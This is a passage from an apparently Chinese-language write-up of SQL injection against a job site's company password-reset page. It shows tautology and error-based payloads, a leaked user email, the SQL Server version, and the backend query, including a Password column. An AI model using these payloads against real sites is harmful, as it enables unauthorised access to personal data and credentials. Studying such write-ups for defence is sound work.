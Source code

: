 ```
, (select count(*) from Send where JobId in (select Id from Job where CompanyId=A.Id and Enabled=1)) as SendCount

from Company A
 where Code='123'';"
....
```

算起來是 28 + 6 個欄位，並且最後面有個 `;` 結尾

3. `c=' OR '1' = '1`

```html
<meta charset="utf-8" />
<script>
  if (confirm("Q. 是否將貴公司密碼 E-mail 至 xxx@xxxx.com.tw？")) {
    location.href = "main_company_forget_ok.php?i=4";
  }
</script>
```

成功提取到第一個人類的 Email

4. `' AND 1 = CONVERT(int,@@version)--`

```
string(347) "SQLSTATE[22018]: [Microsoft][SQL Server Native Client 10.0][SQL Server]將 nvarchar 值 'Microsoft SQL Server 2008 R2 (RTM) - 10.50.1600.1 (Intel X86)
	Apr  2 2010 15:53:02
	Copyright (c) Microsoft Corporation
	Enterprise Edition on Windows NT 5.2 <X86> (Build 3790: Service Pack 2) (Hypervisor)
' 轉換成資料類型 int 時，轉換失敗。"
string(934) "
select Id, Name, ShortName, Code, Address
, Product, Industry, TypeId, Welfare, Web
, Logo, ContactPerson, ContactMobile, ContactPhone, ContactFax
, ContactMail, ContactMailShown, FileName, FilePath, Hit
, CreateTime, ModifyTime, Enabled, Password, LoginTime
, LoginCount, Source, Certificate

, (select Name from Type where Id=A.TypeId) as TypeName
, (select count(*) from Job where CompanyId=A.Id) as JobAllCount
, (select count(*) from Job where CompanyId=A.Id and Enabled=1) as JobEnabledCount
, (select count(*) from Job where CompanyId=A.Id and Enabled=1 and (IsClosed=0 and (ExpiredDate is null or CURRENT_TIMESTAMP < ExpiredDate+1))) as JobValidCount
, (select count(*) from BookmarkCompany where CompanyId=A.Id) as BookmarkCount
, (select count(*) from Send where JobId in (select Id from Job where CompanyId=A.Id and Enabled=1)) as SendCount

from Company A
 where Code='' AND 1 = CONVERT(int,@@version)--';"
....
```

